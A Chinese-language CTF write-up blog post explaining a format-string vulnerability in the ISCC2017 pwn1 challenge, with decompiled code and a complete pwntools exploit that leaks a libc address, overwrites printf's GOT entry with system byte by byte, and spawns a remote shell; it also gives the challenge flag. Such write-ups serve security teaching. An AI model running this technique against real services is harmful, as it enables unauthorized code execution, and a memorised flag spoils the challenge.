 ```yaml
---

layout: post

title: 'ISCC2017之pwn1初探格式化漏洞'

date: '2017-05-06'

header-img: "img/home-bg.jpg"

tags:
     - pwn 格式化漏洞  
author: 'De4dCr0w'

---
```


### 基础知识 ###
#### 格式化漏洞的原理 ####
printf函数在处理参数的时候，每遇到一个%开头的标记，就会根据这个%开头的字符所规定的规则执行，即使没有传入参数，也会认定栈上相应的位置为参数。  
每一个格式化字符串的 % 之后可以跟一个十进制的常数再跟一个 $ 符号, 表示格式化指定位置的参数
#### 格式化漏洞的使用技术 ####

* %N$p：以16进制的格式输出位于printf第N个参数位置的值；
* %N$s：以printf第N个参数位置的值为地址，输出这个地址指向的字符串的内容；
* %N$n：以printf第N个参数位置的值为地址，将输出过的字符数量的值写入这个地址中，对于32位elf而言，%n是写入4个字节，%hn是写入2个字节，%hhn是写入一个字节；
* %Nc：输出N个字符，这个可以配合%N$n使用，达到任意地址任意值写入的目的。

N的大小是有限制，所以如果一般地址的大小过大，可以通过%hhn一个字节的字节写入

> 反汇编的main函数

	int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
	{
	  int v3; // [sp+14h] [bp-6Ch]@3
	  int v4; // [sp+18h] [bp-68h]@5
	  int v5; // [sp+7Ch] [bp-4h]@1
	
	  v5 = *MK_FP(__GS__, 20);
	  setbuf(stdout, 0);
	  while ( 1 )
	  {
	    introduce();
	    do
	      __isoc99_scanf("%d", &v3);
	    while ( (char *)(char)getchar() == "\n" );
	    if ( v3 == 1 )
	    {
	      puts("please input your name:");
	      gets((char *)&v4);
	      printf((const char *)&v4);
	      puts(",you are welcome!");
	    }
	    else if ( v3 == 2 )
	    {
	      puts("nothing!!!!lol");
	    }
	    else
	    {
	      puts("please,don't trick me");
	    }
	  }
	}

> 反汇编的introduce函数

	int introduce()
	{
	  puts("\n++++Welcome to ziiiro's class!++++");
	  puts("now you can do something:");
	  puts("1.get your name");
	  puts("2.heiheihei");
	  return printf("plz input$");
	}

### 做题思路 ###

![](http://i.imgur.com/ca0ILoj.png)

查看pwn1开启的保护，栈上不可执行，所以不考虑使用shellcode，其实题目中格式化漏洞还是很明显，格式化漏洞可以任意读写内存地址，这样就简单了，我们通过printf函数，利用格式化漏洞泄露函数地址和got表的覆盖来执行system('/bin/sh')来获取主机shell，代码已经为我们很好构造了这样的环境，我们通过gets函数输入/bin/sh，然后将printf函数覆盖成system函数。

我们用AAAA%N$08x，通过改变N的大小来探测AAAA保存在printf函数的第几个参数上，出现41414141时N的大小就是在第几个参数上，这题是在第六个参数上，这是因为gets函数输入的字符串保存在栈上的高地址上（相对于printf的ebp，ret），随后调用printf保存在栈的低位置，**它们使用的是同一个栈**，关键点是要知道我们输入的可控数据保存在哪里。

>exploit.py

	from pwn import *
	import time
	
	context.log_level = 'debug'
	p = remote('115.28.185.220',11111)
	libc = ELF('./libc32.so')
	#p = process('./pwn1')
	#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
	#本地调试

	puts_got = 0x804A01C
	printf_got = 0x804A010
	
	system_libc = libc.symbols['system']
	puts_libc = libc.symbols['puts']

	p.recvuntil("plz input$")
	p.sendline('1')
	
	p.recvuntil("please input your name:")
	#泄露put函数的实际地址
	payload = p32(puts_got)+'%6$s'
	
	p.sendline(payload)
	puts_addr = p.recvuntil('\xf7')
	puts_addr = u32(puts_addr[5:9])
	#本地调试是\xb7,为什么是[5:9]而不是[4:8]，完全是调试出来的，好像接收了一个换行

	#通过泄露的put地址和libc32.so计算出system函数的实际地址
	libc_offset = puts_addr - puts_libc
	system_addr = system_libc + libc_offset
	
	time.sleep(3)
	
	p.recvuntil("plz input$")
	p.sendline('1')
	p.recvuntil("please input your name:")
	#gdb.attach(p)，在这里调试可以查看printf的地址是否被改变

	#将printf的地址覆盖成system，采用单字节覆盖，因为
	payload = p32(printf_got)+p32(printf_got+1)+p32(printf_got+2)
	payload += "%"+str((system_addr&0x000000FF)-12)+"c%6$hhn"
	payload += "%"+str(((system_addr&0x0000FF00)>>8)+0x100-(system_addr&0x000000FF))+"c%7$hhn"
	payload += "%"+str(((system_addr&0x00FF0000)>>16)+0x200-((system_addr&0x0000FF00)>>8))+"c%8$hhn"
	
	p.sendline(payload)
	
	time.sleep(3)
	
	#p.recvuntil("plz input$")//这里printf已经被覆盖成system了，所以打印不出plz input，在这里卡了一下
	p.sendline('1')
	p.recvuntil("please input your name:")

	p.sendline('/bin/sh\0')
	
	p.interactive()

### 结果分析 ###

发送覆盖成system地址的payload之前栈的情况：

![](http://i.imgur.com/aaSbH1m.png)

发送payload之后栈的情况：

![](http://i.imgur.com/31lJ2FJ.png)

可以看到printf函数got地址已经保存了system函数的地址了。

我们再来看看payload是怎么工作的：  
之前我们已经知道gets得到的字符串保存在printf函数的第6个参数上，所以我们将0x804a010放在第6个参数，将0x804a011放在第7个参数，将0x804a012放在第8个参数，然后将system的地址的最后两位的大小写进第6个参数，因为前面已经输入四个地址12字节的大小了，所以要减去。  
这里要注意一点：如果我们要向一个内存字节中写入 0x10 当时我们已经打印了多于 0x10 的数据那么怎么办呢 ?  
因为单字节的写入是会产生溢出的  
假如说我们现在已经向内存中写入了 0xbf 个字节   
我们要再次写入 0x10 , 那么我们只需要将这个计数器调整为 0x110  
这样产生溢出以后 写入内存的就是 0x10 了  
这就是我们要加上0x100和0x200大小的原因了。大小的调整配合调试就可以得出了。

>flag: flag{Pwn1TdsS_@tdxIscc}

